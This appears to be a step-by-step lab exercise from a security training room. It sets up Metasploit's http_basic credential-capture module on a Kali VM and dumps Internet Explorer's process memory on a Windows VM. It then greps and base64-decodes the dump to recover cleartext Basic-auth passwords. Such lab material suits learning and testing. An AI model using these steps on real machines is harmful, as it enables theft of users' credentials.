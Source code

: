 **Exploitation**

Kali VM

1.Open command prompt and type:

```
msfconsole
```
  
2.In Metasploit (msf > prompt) type:
 
```
use auxiliary/server/capture/http_basic
```
  
3.In Metasploit (msf > prompt) type:

```
set uripath x
```

4.In Metasploit (msf > prompt) type: 

```
run
```

Windows VM

1.Open Internet Explorer and browse to: **http://[Kali VM IP Address]/x**  
2.Open command prompt and type:
 
```
taskmgr
```
  
3.In Windows Task Manager, right-click on the “iexplore.exe” in the “Image Name” columnand select “Create Dump File” from the popup menu.  
4.Copy the generated file, iexplore.DMP, to the Kali VM.

Kali VM

1.Place ‘iexplore.DMP’ on the desktop.  
2.Open command prompt and type:
 
```
strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"
```

3.Select the Copy the Base64 encoded string.  
4.In command prompt type:
 
```
echo -ne [Base64 String] | base64 -d
```
  
5.Notice the credentials in the output.

Answer the questions below

Click 'Completed' once you have successfully found all the passwords